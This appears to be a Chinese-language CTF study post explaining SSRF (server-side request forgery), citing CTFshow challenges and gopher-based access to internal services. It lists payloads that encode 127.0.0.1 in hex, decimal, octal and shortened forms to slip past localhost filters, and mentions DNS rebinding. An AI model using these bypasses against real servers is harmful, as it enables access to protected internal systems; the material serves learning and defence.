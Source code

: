 ```yaml
---
title: SSRF攻击
date: 2024-05-15 21:53:24
permalink: /pages/e3017f/
categories:
  - web
tags:
  - php
  - SSRF
author: 
  name: the0n3
  link: https://the0n3.top
---
```


# SSRF攻击


::: tip
 SSRF(Server-Side Request Forgery,服务器请求伪造)是一种由攻击者构造请求,**由服务端发起请求的安全漏洞**,一般情况下,SSRF攻击的目标是外网无法访问的内网系统
:::

简单讲，SSRF是利用了服务器发起了请求，绕过了对ip的限制。例如，现在大多数版本mysql、redis的安全策略，默认是只允许localhost连接，避免被其他主机连接控制，如果可以通过服务器连接这个内网服务，那么就实现了ssrf攻击

在CTFshow靶场中，常见题目类型考察本地ip地址的利用

举例说明：

![flag](https://the0n3.top/medias/ssrf0/2.png)

直接访问flag.php时会提示禁止本地用以外的用户访问，题目中的函数curl_exec()函数会请求目标url，此时的请求是由服务器发起的，可以利用`gopher`协议ssrf打内网服务

![url](https://the0n3.top/medias/ssrf0/3.png)

实际利用场景可以学习B站橙子科技陈腾老师[使用SSRF对组件利用](https://space.bilibili.com/271803648/video)

![ssrf](https://the0n3.top/medias/ssrf0/1.png)

## 本地IP地址的各种进制

### 默认

http://127.0.0.1

### 16进制

http://0x7F000001

### 10进制

((127*256+0)*256+0)*256+1 //计算过程

http://2130706433

### 8进制

url=http://0177.0000.0000.0001/flag.php  //八进制

url=http://0177.0.0.1/flag.php         

### 0

```plaintext
url=http://127.1/flag.php
url=http://0/flag.php          //0在linux系统中会解析成127.0.0.1，在windows中解析成0.0.0.0失败
```

0.0.0.0表示任何IP地址，也可以表示本地

http://0.0.0.0

http://0.0.0

http://0.0

http://0

## 域名解析

域名dns解析到127.0.0.1，例如sudo.cc

[dns重绑工具](https://lock.cmpxchg8b.com/rebinder.html)
